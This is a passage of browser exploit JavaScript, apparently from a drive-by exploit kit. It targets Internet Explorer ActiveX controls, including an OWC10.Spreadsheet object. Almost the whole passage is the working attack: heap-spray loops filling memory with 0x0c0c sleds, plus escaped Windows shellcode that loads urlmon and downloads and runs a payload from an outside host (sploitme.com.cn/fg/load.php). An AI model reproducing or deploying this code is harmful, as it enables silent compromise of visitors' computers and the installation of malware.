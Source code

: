 ```
		obj.setAttribute('classid', 'clsid:EC444CB6-3E7E-4865-B1C3-0DE72EF39B3F');
		if (obj) {
			var shcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u373D');
			var hbs = 1048576;
			var sss = hbs - (shcode.length * 2 + 56);
			var hb = (202116108 - hbs) / hbs;
			var myvar = unescape('%u0C0C%u0C0C');
			var ss = myvar;
			while (ss.length * 2 < sss) {
				ss += ss;
			}
			ss = ss.substring(0, sss / 2);
			var m = new Array();
			for (var i = 0; i < hb; i++) {
				m[i] = ss + shcode;
			}
			var z = Math.ceil(202116108);
			z = document.scripts[0].createControlRange().length;
		}
	} catch (e) {
	}
	spreadsheet();
}
function spreadsheet() {
	try {
		var objspread = new ActiveXObject('OWC10.Spreadsheet');
	} catch (e) {
	}
	if (objspread) {
		try {
			var shellcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u383D');
			var array = new Array();
			var ls = 528384 - shellcode.length * 2;
			var bigblock = unescape('%u0b0c%u0b0C');
			while (bigblock.length < ls / 2) {
				bigblock += bigblock;
			}
			var lh = bigblock.substring(0, ls / 2);
			delete bigblock;
			for (var i = 0; i < 153 * 2; i++) {
				array[i] = lh + lh + shellcode;
			}
			CollectGarbage();
			var objspread = new ActiveXObject('OWC10.Spreadsheet');
			e = new Array();
			e.push(1);
			e.push(2);
```